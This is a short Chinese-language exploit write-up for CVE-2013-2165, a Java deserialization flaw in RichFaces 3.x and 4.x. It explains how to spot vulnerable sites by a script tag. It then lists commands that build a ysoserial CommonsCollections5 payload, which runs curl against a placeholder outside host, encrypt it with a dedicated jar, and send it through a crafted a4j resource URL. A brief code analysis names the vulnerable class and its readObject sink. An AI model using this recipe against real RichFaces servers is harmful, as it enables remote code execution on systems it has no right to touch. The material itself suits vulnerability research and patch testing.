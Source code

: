 # CVE-2013-2165
利用范围: 

3.1.0 ≤ 3.3.3

4.0.0 ≤ 4.3.2

richfaces-demo-3.3.3.Final-tomcat6.war包搭建成功

## 辨别

访问本地`/welcome.jsf`

观察网页会有以下特征

```
<script src="/a4j/g/3_3_3.Final/org/ajax4jsf/framework.pack.js.jsf" type="text/javascript">
```

## 利用

```
生成反序列化利用:
java -jar ysoserial.jar CommonsCollections5 "curl -v http://www.xxx.com/" > payload.bin

生成richfaces加密后的payload:
java -jar CVE-2013-2165.jar /Users/l3m0n/work/tools/java/payload.bin
```

![-w1436](media/15434847194066/15434904375531.jpg)

需要注意的是，payload前一定要是`DATA`，其中后缀`jsf`看网页html情况

```
http://localhost:8085/a4j/s/3_3_3.Finalorg/richfaces/renderkit/html/css/extended_both.xcss/DATA/[Payload替换位置].jsf
```

## 分析

漏洞主要位于: `richfaces-impl-3.3.3.Final.jar!/org/ajax4jsf/resource/ResourceBuilderImpl.class:221`

![-w1432](media/15434847194066/15434856321698.jpg)

整个流程也比较简单，请求`http://localhost:8085/a4j/s/3_3_3.Finalorg/richfaces/renderkit/html/css/extended_both.xcss/DATA/eAF7sqpgb-jyGdIAFrMEaw__.jsf`

会将`DATA`后面的数据(也就是`eAF7sqpgb-jyGdIAFrMEaw`)经过解密传入到`dataString`变量中，最后会进入readObject，要注意上图访问的是`DATB`，最后的返回是一个数组，没有进入反序列中。

